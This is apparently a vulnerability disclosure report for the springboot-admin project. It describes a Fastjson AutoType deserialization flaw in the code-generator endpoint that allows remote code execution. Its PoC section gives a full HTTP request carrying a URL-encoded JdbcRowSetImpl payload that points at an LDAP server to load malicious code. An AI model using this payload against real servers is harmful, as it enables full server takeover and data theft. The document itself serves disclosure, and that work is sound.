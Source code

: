 **[springboot-admin](https://github.com/opplus/springboot-admin) Vulnerability Risk Report**

**Vulnerability Location:**
In the `@RequestMapping("/code")` endpoint of the `SysGeneratorController.java` class, specifically in the `JSON.parseArray(tables)` call.

![image-20250328185805310](C:\Users\1\AppData\Roaming\Typora\typora-user-images\image-20250328185805310.png)

**Vulnerability Description:**
The code uses the Fastjson library without enabling SafeMode or disabling AutoType features. The `JSON.parseArray()` method directly parses unvalidated user input (`tables` parameter). When using Fastjson ≤1.2.83, an attacker could craft malicious JSON data to achieve **Remote Code Execution (RCE)**.

![image-20250328182148905](C:\Users\1\AppData\Roaming\Typora\typora-user-images\image-20250328182148905.png)
The project is using a vulnerable version of Fastjson.

**Impact:**

- Remote Code Execution (RCE)
- Sensitive server data leakage
- Full server compromise

POC：

```
GET /vgk/dev/admin/sys/generator/code?X-Token=0a5e52568d4e5909d8c18e713c7bc50a&tables=[%7b%22%65%22%3a%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6c%61%6e%67%2e%43%6c%61%73%73%22%2c%22%76%61%6c%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%7d%2c%22%66%22%3a%7b%22%40%74%79%70%65%22%3a%22%63%6f%6d%2e%73%75%6e%2e%72%6f%77%73%65%74%2e%4a%64%62%63%52%6f%77%53%65%74%49%6d%70%6c%22%2c%22%64%61%74%61%53%6f%75%72%63%65%4e%61%6d%65%22%3a%22%6c%64%61%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%30%31%32%2f%4f%62%6a%65%63%74%22%2c%22%61%75%74%6f%43%6f%6d%6d%69%74%22%3a%74%72%75%65%7d%7d] HTTP/1.1
Host: 172.20.10.3:8889
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.3:8889/vgk/dev/admin/modules/sys/generator.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=bf1aebc9-2d47-47e5-8480-701256c9f1cc
x-forwarded-for: 127.0.0.1
Connection: close


```

**Proof of Vulnerability:**

Establish an LDAP service and load malicious code to exploit the deserialization flaw.![image-20250328182626670](C:\Users\1\AppData\Roaming\Typora\typora-user-images\image-20250328182626670.png)

Exploitation via Malicious Tables Parameter

![image-20250328183031757](C:\Users\1\AppData\Roaming\Typora\typora-user-images\image-20250328183031757.png)

Successful code execution

![image-20250328183135349](C:\Users\1\AppData\Roaming\Typora\typora-user-images\image-20250328183135349.png)